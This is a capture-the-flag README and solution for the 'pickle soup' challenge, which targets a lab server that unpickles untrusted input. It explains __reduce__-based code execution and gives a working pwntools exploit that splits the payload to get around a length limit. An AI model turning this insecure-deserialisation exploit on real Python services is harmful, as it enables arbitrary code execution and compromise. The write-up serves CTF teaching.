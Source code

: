 # pickle soup
<b>Author</b>: [x55xaa](https://discordapp.com/users/916317034327969822)<br>
<b>Category</b>: Misc<br>
<b>Solves</b>: 57<br>


## Description

I was trying to make a delicious batch of pickle soup, but I forgot the ingredients! Can you help me remember the recipe?


## How to run the server
To run the server you'll need [`docker`](https://docs.docker.com/get-docker/) and [`docker-compose`](https://docs.docker.com/compose/install/).<br>
Go into the `src` folder and from the command line run `docker-compose up --build -d`.<br>
Now you can connect to the server by running `nc localhost 5001` in your terminal.<br>
To stop the server, from the command line run `docker-compose down`.


## Solution

The server unsafely unpickles the data it receives, leaving it vulnerable to command injection.

We can construct malicious pickle data which will execute arbitrary Python code during unpickling. One way to achieve this is by creating a class that implements the [\_\_reduce\_\_()](https://docs.python.org/3/library/pickle.html#object.__reduce__) method:
```python
class MaliciousObject:
    def __reduce__(self):
        return eval, ('print("helloworld!")',)
```

Now we just need to dump the contents of `recipe.txt` to retrieve the flag.

To bypass the pickle length restriction (`len(data) <= 64`), we can:
* use `pickletools.optimize()` on our malicious object to reduce its size.
* split the payload into ingredients, and then `eval` their concatenation.

Below is an example of a working exploit, using `pwntools`:

```python
from base64 import b64encode
import pickle
import pickletools

from pwn import remote

HOST, PORT = 'localhost', 5001


class EvalIngredients:
    def __reduce__(self):
        return eval, ('eval("".join(ingredients))',)


def send_ingredients(r: remote, ingredients) -> None:
    """Sends the specified ingredients to the pickle soup server."""

    for ingredient in ingredients:
        r.sendline(b64encode(pickletools.optimize(pickle.dumps(ingredient))))
        print(r.recvline().decode().strip())

    r.sendline(b'done')
    print(r.recvline().decode().strip())


def main() -> None:
    """Main function."""

    ingredients = (
        'print(get_super_secret_pickle_soup_recipe())',
        EvalIngredients(),
    )

    with remote(HOST, PORT) as r:
        r.recvuntil(b'Send me pickles!\n')
        send_ingredients(r, ingredients)


if __name__ == '__main__':
    main()
```

